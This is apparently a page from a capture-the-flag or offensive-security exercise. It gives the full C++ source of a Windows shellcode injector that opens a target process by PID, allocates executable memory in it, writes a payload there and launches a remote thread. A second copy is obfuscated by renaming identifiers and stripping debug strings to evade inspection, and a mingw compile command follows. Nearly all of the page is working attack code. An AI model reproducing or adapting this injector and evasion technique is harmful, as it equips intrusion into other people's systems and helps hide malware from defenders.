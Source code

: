 Remove any meaningful identifiers or debug information from this C++ source code:

```text
#include "windows.h"
#include <iostream>
#include <string>
using namespace std;

int main(int argc, char* argv[])
{
	unsigned char shellcode[] = "";

	HANDLE processHandle;
	HANDLE remoteThread;
	PVOID remoteBuffer;
	string leaked = "This was leaked in the strings";

	processHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));
	cout << "Handle obtained for" << processHandle;
	remoteBuffer = VirtualAllocEx(processHandle, NULL, sizeof shellcode, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
	cout << "Buffer Created";
	WriteProcessMemory(processHandle, remoteBuffer, shellcode, sizeof shellcode, NULL);
	cout << "Process written with buffer" << remoteBuffer;
	remoteThread = CreateRemoteThread(processHandle, NULL, 0, (LPTHREAD_START_ROUTINE)remoteBuffer, NULL, 0, NULL);
	CloseHandle(processHandle);
	cout << "Closing handle" << processHandle;
	cout << leaked;

	return 0;
} 
```

Obfuscated:

```text
#include "windows.h"

int main(int argc, char* argv[])
{
	unsigned char awoler[] = "";

	HANDLE awerfu;
	HANDLE rwfhbf;
	PVOID iauwef;

	awerfu = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));
	iauwef = VirtualAllocEx(awerfu, NULL, sizeof awoler, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
	WriteProcessMemory(awerfu, iauwef, awoler, sizeof awoler, NULL);
	rwfhbf = CreateRemoteThread(awerfu, NULL, 0, (LPTHREAD_START_ROUTINE)iauwef, NULL, 0, NULL);
	CloseHandle(awerfu);

	return 0;
}
```

Compile:

    $ sudo i686-w64-mingw32-g++ challenge-8.cpp -o challenge-8.exe

Upload, and get flag!
